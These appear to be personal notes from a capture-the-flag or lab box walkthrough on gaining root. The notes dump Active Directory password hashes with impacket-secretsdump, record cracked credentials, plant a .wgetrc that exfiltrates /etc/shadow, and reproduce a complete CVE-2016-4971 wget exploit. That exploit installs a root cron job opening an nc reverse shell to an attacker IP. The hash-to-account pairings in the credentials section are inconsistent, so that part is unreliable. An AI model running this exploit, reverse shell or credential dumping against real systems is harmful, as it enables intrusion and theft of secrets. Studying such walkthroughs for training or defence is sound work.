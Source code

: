 ## Getting Root
NTSD (use impacket secretdump)
![[Pasted image 20211110073420.png]]

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::                                                                                                        
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
```

Trying to see another machines on the network for golden ticket with kerborus, but the machine found was a linux not a windws
![[Pasted image 20211110075051.png]]

### Time to crack some hashes

![[Pasted image 20211110075300.png]]


https://hashes.com/en/decrypt/hash
![[Pasted image 20211110075506.png]]

Creds
Administrator:2b576acbe6bcfda7294d6bd18041b8fe:Password123!

atenas:e64fe0f24ba2489c05e64354d74ebd11:f16tomcat! 

![[Pasted image 20211110081736.png]]


### App.log execute every 2 minutes and have old version of wget(1.16)
![[Pasted image 20211110082127.png]]
![[Pasted image 20211110082226.png]]


On /dev/shm paste this:
```bash
$ cat <<_EOF_>.wgetrc                                                          
post_file = /etc/shadow                                                                        
output_document = /etc/cron.d/wget-root-shell                                                  
_EOF
```

Open tmux session to communicate with a single session
![[Pasted image 20211110233044.png]]

Open a ftp server using authbind, because you cant listning on port 21. Authbind can overpass this e list for you
```bash
$ authbind  python -m pyftpdlib -p21 -w
```

![[Pasted image 20211110233346.png]]


### Exploit Time

* wget exploit content
```python
#!/usr/bin/env python
#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971
#

import SimpleHTTPServer
import SocketServer
import socket;

class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
   def do_GET(self):
       # This takes care of sending .wgetrc

       print "We have a volunteer requesting " + self.path + " by GET :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
          print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
       print "Sending redirect to %s \n"%(new_path)
       self.send_header('Location', new_path)
       self.end_headers()

   def do_POST(self):
       # In here we will receive extracted file and install a PoC cronjob

       print "We have a volunteer requesting " + self.path + " by POST :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
          print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       content_len = int(self.headers.getheader('content-length', 0))
       post_body = self.rfile.read(content_len)
       print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)

       print "Sending back a cronjob script as a thank-you for the file..."
       print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
       self.send_response(200)
       self.send_header('Content-type', 'text/plain')
       self.end_headers()
       self.wfile.write(ROOT_CRON)

       print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"

       return

HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.10.55'
FTP_PORT = 21

ROOT_CRON = "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 8003 >/tmp/f \n"

handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print "Ready? Is your FTP server running?"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
   print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
   print "FTP is down :( Exiting."
   exit(1)

print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

handler.serve_forever()


```

![[Pasted image 20211110235052.png]]

Every 2 minutes , Cron responds back to us. For Reverse shell on first time has to wait for 4min to get a shell. Only 4min on first try, after is 2 min
![[Pasted image 20211110235800.png]]

